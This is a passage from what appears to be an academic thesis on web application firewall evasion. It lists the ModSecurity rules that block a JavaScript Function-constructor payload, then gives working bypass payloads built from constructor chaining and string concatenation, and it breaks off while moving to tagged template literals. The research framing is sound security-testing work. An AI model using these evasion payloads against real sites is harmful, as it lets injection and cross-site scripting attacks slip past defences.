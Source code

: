 \begin{lstlisting}[style=ruleStyle, language=XML, caption=function constructor blocked, label={lst:funconblocked}]
<payload>new Function('var s = "secret";prompt("something", s)')()</payload>

<message>"Node.js Injection Attack 1/2"</message>
<file>"/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf"</file>
<fileDetails>[line "52"] [id "934100"]<fileDetails>
<MatchedData>"new Function("</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}

To evade rule with id \verb|934100|, calling the \verb|Function()| constructor was substituted with \verb|[]['constructor']['constructor']()|. Using string concatenation to replace the character sequence \verb|'prompt'| with \verb|'promp + t'| successfully made the payload evade rule \verb|941390| and bypass the WAF. The bypassing payload:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using square bracket notation]
[]['constructor']['constructor']('var s = "secret";promp' + 't("something", s)')()
\end{lstlisting}

Similarly, using the dot-syntax instead of bracket-access, the following payload bypasses the firewall:

\begin{lstlisting}[style=basicStyle, caption=function constructor bypass payload using dot notation]
[].constructor.constructor('var s = "secret";promp' + 't("something", s)')()
\end{lstlisting}

\subsubsection{Avoiding ()}
\label{sec:avoidingbypassA}
In the context of testing firewall evasion techniques, the author faced the question if it was possible to create payloads without  \verb|()|. Those payloads still need to be valid and bypass the waf.
Considering the bypassing payload from \ref{sec:funconstrconbypass}, opening and closing \verb|()| can be substituted with Tagged Template Literals. This caused another firewall rule to trigger:

